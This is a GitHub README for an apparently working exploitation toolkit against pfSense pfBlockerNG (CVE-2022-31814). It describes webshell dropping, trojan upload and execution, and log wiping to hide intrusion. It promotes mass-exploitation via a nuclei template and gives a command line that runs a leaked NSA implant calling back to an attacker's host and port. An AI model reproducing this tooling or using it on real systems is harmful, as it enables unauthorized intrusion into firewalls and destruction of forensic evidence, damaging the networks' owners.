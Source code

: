 # SenselessViolence
CVE-2022-31814 (pfSense pfBlockerNG <= 2.1.4_26) Exploitation Toolkit.

## What?
This is an exploitation toolkit for the pfSense pfBlockerNG <= 2.1.4_26 plugins remote command injection feature discovered by IHTeam.

I wrote this to play around with some of the design principles found in the NSA's firewall exploitation toolkit - for this reason, its designed to be fully compatible with the nopen implant (one small, and documented, change needed), have built-in log wiping features, and be extremely reliable by implementing some pre-flight checks (passive and active vulnerability tests). 

A trivial reverse TTY shell payload written in Python (these things ship with a Python interpreter) is supplied as a surrogate for nopen in this toolkit, because running sketchy binaries swiped from the NSA seems a tad foolish in production environments. 

## How to Use?
For yolo-scanning for beg bounties and mass-exploitation, run the nuclei template supplied (it should also have been upstreamed by now). This will give you a target list. This file is named `nuclei-CVE-2022-31814.yaml`.


### Modes 

For precision carefulling of networks, there are four "modes" you will want to be aware of, and are documented below. Run them in order. These are set using the "--mode" flag.

- touch 
- probe
- exploit
- cleanup

#### touch
This mode makes two HTTP requests - one to check its actually a pfSense (by checking the HTTP title on /), and one to the vulnerable endpoint to check it looks ok. This mode does not exploit anything. 

#### probe
This mode makes two HTTP requests - both of which exploit the vulnerability. 

It injects a `sleep 1` and a `sleep 10` and makes sure the time difference between both requests is greater than 6 seconds. 

I added a bit of fuckit factor into this to account for latency if you are pitching the exploit over a proxy (you are, right?).

#### exploit
This mode makes 3 HTTP requests. 

The first exploits the vulnerability to drop a webshell using a GET request.  
The second uses the webshell to upload our trojan using a POST request.  
The third uses the webshell to execute our trojan using a POST request.

#### cleanup

This mode makes two HTTP requests.  
The first uploads a cleanup script using the webshell.  
The second executes the cleanup script.  

The cleanup script zaps the logs, deletes the trojan, deletes the webshell, and then deletes itself. It does this in a reasonable manner (rm -rf). Not particularly forensically sound - I may fix that later by using `dd` to overwrite the files before deleting. I may also write some sed magic to surgically zap the logs, but really, only if I can be fucked. 

### Other arguments

- trojan - path to your trojan executable/script
- cbhost - callback host for trojan
- cbport - callback port for trojan
- target - target base url, eg: https://pfsense.local
- interact - spawns a shitty pseudo shell using the webshell in case you want to run commands, transfer files, etc via the webshell. May not be implemented in the initial public release (its buggy as shit)
- help (prints a help menu)

### Making it work with nopen.

For nopen use, just replace the final "execute trojan" command in the `exploit()` function with the following:

```
    execute_command(base_url, shell_webpath, shell_param, shell_command=f"chmod +x /tmp/.troy;D=-c{connectback_host}:{connectback_port} /tmp/.troy")
```

And supply a freebsd nopen (noserver) binary that works on your target system - this may be difficult, you need to patch the `noserver-3.3.2.3-freebsd_8.0-i386` from the EQGRP leak to use `libkvm.so.7` instead of `libkvm.so.5`, and the target system needs the lib32 compat layer... Which doesn't ship by default in pfSense.

I might add a `--nopen` flag to automagic this in a later release, if people *really* care that much to use nopen. They shouldn't.

## Screenshot of it in action (showing the logs are sparkly clean).
![screenshot](https://github.com/EvergreenCartoons/SenselessViolence/blob/main/Screenshot%20from%202022-09-18%2016-03-39.png?raw=true)

## References
IHTeam Advisory: https://www.ihteam.net/advisory/pfblockerng-unauth-rce-vulnerability/
